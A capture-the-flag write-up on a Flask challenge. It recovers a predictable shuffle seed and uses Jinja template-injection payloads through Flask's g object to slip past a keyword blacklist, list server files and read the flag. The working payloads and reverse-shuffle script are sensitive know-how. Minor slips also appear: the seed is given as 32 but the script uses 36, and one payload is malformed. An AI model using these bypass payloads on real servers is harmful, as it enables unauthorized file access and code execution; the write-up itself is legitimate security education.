# Galactic Signal Decoder

## Resonance

When I first opened the website, I immediately tested its interface. It looked like a game with two attack buttons and a third button for healing.



I checked `robots.txt` but found nothing.


I checked the source and found two suspicious paths: `/api/signals` and `api/decode?pattern=${key}`.





The challenge website is open-source (which is why I can host it locally), so I opened the source code and found a function called “`valid_template`”.



It used a seed from the random module, converted the input into a list called `char_list` (pretty obvious), shuffled it, and returned the shuffled result to the client. The problem was that the randomness was predictable: `RANDOM_SEED` was set when the website started and did not change unless the website was restarted.



The seed ranged from 0 to 50, so I wrote some code to recover it. (Yes, I copied almost exactly the same code from the source.)



The code brute-forces the seed to find the same pattern. The condition `if a == "e}lfs{":` compares the shuffled result with what the website displayed at `/api/decode=<your input>`.



I ran the code and found the seed.



The seed was `32`. After finding it, I had to write another script to reverse the shuffle so that my input would produce exactly what I wanted after being shuffled.

For example, I wanted to print `{self}`, but it was shuffled into `e}lfs{`. I therefore had to construct an input that would become `{self}` after the shuffle.



Here is the code. Basically, I passed the seed I found to `random.seed()`. Then I created a list of indices for my input; for example, `{self}` would correspond to `[0,1,2,3,4,5]`. The `original` variable held a list of empty strings with the same length so that I could fill in the characters later. I then shuffled the index list. It followed the same permutation as the characters, but used numbers instead. Finally, `original[mylistc[i]] = input[i]` took the index at position i in the shuffled list and placed the corresponding input character into that position in `original`.



I put the generated input into `/api/decode=`.



Oh yeah, the filter blocked the word “self”, so I tried something else: `{}-1{07}`, which would become `{{10-7}}` after the shuffle.



And, well, it really printed 3.



So I had the seed and the reverse-shuffle script. All that remained was to make a working payload. The filter blocked almost everything I tried; not even PayloadsAllTheThings could help. I noticed the unusual entry `g.` in the filter and wondered where it could lead.



While searching for Flask documentation, I found a Stack Overflow question asking, “What is g?”





The catch was that I could use “`g .`” or “`(g).`” and still get the same result.



There was also an object called `pop`.



First, I tried accessing “`g .pop`”.



```text
“"<i>Signal pattern rejected. It's trash, and I'm going to destroy it and turn it back into: &lt;bound method _AppCtxGlobals.pop of &lt;flask.g of &#39;app&#39;&gt;&gt;</i>"”
```

The output included `<flask.g of ‘app’>`, so I checked the Flask source. This part caught my eye.



It had already imported both `sys` and `os`, which were blocked by the filter. I decided to try accessing the globals and checking the file path with “`g .pop.__globals__.__file__`”.



```text
"<i>Signal pattern rejected. It's trash, and I'm going to destroy it and turn it back into: /usr/local/lib/python3.12/site-packages/flask/ctx.py</i>"
```

Since the application filtered sys, I could not access it directly. Instead, I tried building the name from individual characters in the file path using __add__:

```jinja
{{g .pop.__globals__[g .pop.__globals__.__file__[2].__add__(g .pop.__globals__.__file__[16]).__add__(g .pop.__globals__.__file__[2])]}}
```

I finally reached `g.pop.__globals__.sys`.



```text
"<i>Signal pattern rejected. It's trash, and I'm going to destroy it and turn it back into: &lt;module &#39;sys&#39; (built-in)&gt;</i>"
```

Since this was a module, as shown in the output, I could access `modules` to get `os`.

```text
{{g .pop.__globals__[g .pop.__globals__.__file__[2].__add__(g .pop.__globals__.__file__[16]).__add__(g .pop.__globals__.__file__[2].modules)]}}
```



With listdir, I was finally able to see the files in the directory:

```jinja
{{g .pop.__globals__[g .pop.__globals__.__file__[2].__add__(g .pop.__globals__.__file__[16]).__add__(g .pop.__globals__.__file__[2])].modules[g .pop.__globals__.__file__[6].__add__(g .pop.__globals__.__file__[2])].listdir()}}
```



```text
"<i>Signal pattern rejected. It's trash, and I'm going to destroy it and turn it back into: [&#39;flag_xgnLe2IIYyblOrq.txt&#39;, &#39;flag_SQ0oKa541yjBSEe.txt&#39;, &#39;flag_MIbLvrw77kV2fUl.txt&#39;, &#39;flag_pPLnclkyL7S7k3H.txt&#39;, &#39;flag_ZYWWNkC8q5SDifp.txt&#39;, &#39;flag_sX4xDoJGf2EW5hY.txt&#39;, &#39;flag_w1PslhaAcwYuMwS.txt&#39;, &#39;static&#39;, &#39;templates&#39;, &#39;app.py&#39;]</i>"
```

Uhh, I don’t know why there were so many flag files… I thought it might be because I restarted my virtual machine a lot while leaving Docker running.

Since the payload was getting too long, I used `A` to represent it in the code below.



And there it was: the flag.

Here is the code:

```python
import random

def unshuffle():
    A = "g .pop.__globals__[g .pop.__globals__.__file__[2].__add__(g .pop.__globals__.__file__[16]).__add__(g .pop.__globals__.__file__[2])].modules[g .pop.__globals__.__file__[6].__add__(g .pop.__globals__.__file__[2])]"
    input = "{{" + f"{A}.read({A}.open({A}.listdir()[0], 0), 9999)" + "}}"
    random.seed(36)
    mylistc = list(range(len(input)))
    original = [""] * len(input)
    random.shuffle(mylistc)
    for i in range(len(input)):
        original[mylistc[i]] = input[i]
    print("".join(original))
unshuffle()
```

## Conclusion

The solve path was to recover the shuffle seed, construct inputs that became the intended template expressions after shuffling, and work around the blacklist to reach Python objects through Flask’s g object. This led to a directory listing and a file-read payload. The main takeaway is that a predictable shuffle and a keyword blacklist do not make user-controlled template evaluation safe.
